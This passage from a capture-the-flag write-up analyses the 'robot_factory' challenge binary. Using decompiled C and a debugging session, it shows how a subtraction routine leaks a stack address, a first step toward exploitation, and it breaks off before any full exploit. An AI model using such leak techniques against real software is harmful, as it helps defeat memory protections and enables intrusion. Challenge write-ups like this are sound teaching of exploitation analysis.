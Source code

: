 ## sub_func

```c
__int64 __fastcall sub_func(robot *robot) {

  __int64 tmp; // rax

  tmp = robot->robot_type;
  if ( tmp ) {
    if ( tmp == ROBOT_TYPE_STRING )
      BUG();
  
  } else {
    tmp = robot->operation_result;
    *tmp = robot->element1 - robot->element2;
  }
  return tmp;
}
```

The sub function will first check if the `ROBOT_TYPE` is not `ROBOT_TYPE_STRING`, otherwise the process will crash himself.

Then, to resume, `robot->operation_result` will contain the adress of our "tmp" variable that will contain the substraction result. Because of this "programmation mistake" (don't forget that this is a challenge), when the `self_destruct_protocol` will be called to print the operation result and free our robot structure, the `robot->operation_result` will be an address in the stack : this function will then leak the address of "tmp" by printing it as a long !

We can try to check during a debug session in IDA :
```bash
$ ./robot_factory
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
|                                 |
|  WELCOME TO THE ROBOT FACTORY!  |
|    DAYS WITHOUT AN ACCIDENT:    |
|               0                 |
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
What kind of robot would you like? (n/s) > n
What kind of operation do you want? (a/s/m) > s
Enter number 1: 42
Enter number 2: 41
Result: 139990440083144
```
```py
$ python -q
>>> hex(139990440083144)
'0x7f521073fec8'
```
```
debug008:00007F521073FEC8 operation_result_0 dq 1
```
After that the robot was officialy deleted, there is some garbage in there but our stack pointer is always here at the `robot->operation-result`'s position !
```
[heap]:000000000092F380 robot_0 dq 0 
[heap]:000000000092F388 dd 80008D0h
[heap]:000000000092F38C dd 7F52h
[heap]:000000000092F390 dq 42
[heap]:000000000092F398 dq 41
[heap]:000000000092F3A0 dq offset operation_result_0
[heap]:000000000092F3A8 dq 0
[heap]:000000000092F3B0 dq 0
[heap]:000000000092F3B8 db 1
```
